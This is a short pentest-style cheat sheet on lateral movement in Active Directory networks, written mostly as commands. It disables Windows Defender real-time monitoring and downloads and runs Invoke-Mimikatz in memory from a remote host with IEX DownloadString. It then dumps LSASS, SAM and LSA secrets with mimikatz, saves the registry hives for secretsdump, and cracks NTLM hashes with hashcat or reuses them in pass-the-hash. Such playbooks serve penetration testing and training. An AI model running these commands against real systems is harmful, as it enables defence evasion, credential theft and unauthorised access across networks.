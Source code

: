 # Lateral Movement Methodology

### 1) Credentials Dumping and Testing

If we get System/Admin level privileges on the machine, we can dump credentials from the machine to use them for lateral movement on other machines within a network.

This applies mostly to AD networks.

1) Disable Antivirus

        Set-MpPreference -DisableRealtimeMonitoring $True

2) Download mimikatz to target machine. You can use either the Invoke-Mimikatz powershell module, or the executable.

Execute a file in memory using powershell

      IEX (New-Object Net.WebClient).DownloadString('https://<snip>/Invoke-Mimikatz.ps1')

Download executable

      "IEX(New-Object Net.WebClient).downloadString('http://172.16.5.222/SharpHound.exe')"	

3) Run mimikatz

        .\mimikatz.exe

        privilege::debug

4) Dump LSASS

        sekurlsa::logonpasswords

5) Dump SAM

        lsadump::sam

6) Dump LSA

        lsadump::lsa

7) Collect cleartext/ntlm credentials and test them on different machines in the network using different protocols like smb, winrm and rdp for example using netexec

8) SAM Registry Keys

        reg.exe save hklm\sam C:\sam.save

        reg.exe save hklm\system C:\system.save

        reg.exe save hklm\security C:\security.save

Then on Kali machine:

        secretsdump.py -sam sam.save -security security.save -system system.save LOCAL

Then crack dumped NTLM hashes with hashcat or do a Pass-the-Hash attack

         sudo hashcat -m 1000 ntlm_hash.txt /usr/share/wordlists/rockyou.txt
